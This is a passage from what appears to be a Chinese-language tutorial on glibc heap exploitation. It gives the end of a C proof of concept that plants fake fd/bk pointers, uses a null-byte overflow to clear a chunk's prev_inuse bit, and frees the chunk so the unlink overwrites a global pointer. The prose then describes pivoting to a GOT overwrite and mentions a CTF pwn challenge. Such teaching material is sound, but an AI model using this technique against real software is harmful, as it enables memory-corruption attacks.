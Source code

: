 ```
 
//fd, A->fd->bk == A
A[0x10]=0xE8,A[0x11]=0x10,A[0x12]=0x60,A[0x13]=0x00,A[0x14]=0x00,A[0x15]=0x00,A[0x16]=0x00,A[0x17]=0x00;
 
//bk, A->bk->fd == A
A[0x18]=0xF0,A[0x19]=0x10,A[0x1A]=0x60,A[0x1B]=0x00,A[0x1C]=0x00,A[0x1D]=0x00,A[0x1E]=0x00,A[0x1F]=0x00;
 
//change the pre_size of B (in A's own memory) , point to A's Fake Head
A[0xF0]=0xF0,A[0xF1]=0x00,A[0xF2]=0x00,A[0xF3]=0x00,A[0xF4]=0x00,A[0xF5]=0x00,A[0xF6] = 0x00,A[0xF7] = 0x00;
 
//null byte offset , VUL!!!!!!! , change B's pre_inuse to 0 , then free B cause forward merge
A[0x100 - 8] = 0x00;
gl[0x10] = A;//avoid safe unlinking
printf("Before DW , global[0x10] is : %p\n", gl[0x10]);
free(B);//triger the merge , Then cause DW shoot
printf("After DW , global[0x10] is : %p\n", gl[0x10]);
printf("Done\n");
}
```

如上面代码，全局变量原来存储的是堆块A的地址，经过DW shoot之后，就变成了全局变量前面偏移0×18位置，如果程序可以Edit全局变量指向的内存，则可以做各种各样的事了，如把全局变量的内容修改为GOT表地址（因为这个全局变量现在已经指向自己前面偏移0×18位置了。

**0×03 结尾**

最近为某比赛写了个PWN题，利用的就是上述null byte offset漏洞转换成DW shoot的方法，具体的题目和exploit合适的时候再放出来。

其实只要能通过前向融合构造DW shoot，就可以构造内存重叠。两者唯一的区别是构造DW shoot要我们精心挑选合适的fd和bk指针，构造内存重叠则需要释放一个堆块，让fd和bk是“原装”的，然后正常融合，然后再申请篡改内存。

篇幅字数限制，关于传统的堆溢出，和Double free等漏洞的利用就放到下一篇里了~
